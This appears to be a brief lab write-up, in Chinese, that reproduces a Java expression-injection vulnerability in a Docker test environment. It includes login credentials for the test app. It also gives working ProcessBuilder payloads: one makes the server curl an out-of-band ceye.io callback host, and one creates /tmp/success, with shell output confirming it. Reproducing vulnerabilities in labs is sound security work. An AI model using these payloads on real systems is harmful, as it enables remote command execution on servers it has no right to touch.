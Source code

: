 URL:https://threathunter.org/topic/593d562353ab369c55425a90

## 测试环境搭建

```
docker-compose build
docker-compose up -d

安全完之后直接访问http://0.0.0.0:30082
```
登录账号：keith
登录密码：melbourne

```
ceye.io测试
&_(new+java.lang.ProcessBuilder("/usr/bin/curl","http://spring.test.ceye.io/")).start()=iswin
```
```
&_(new+java.lang.ProcessBuilder("/usr/bin/touch","/tmp/success")).start()=iswin
会在docker 容器里面生成一个success文件
root@18c62faacda0:/tmp# ls
hsperfdata_root  success
```
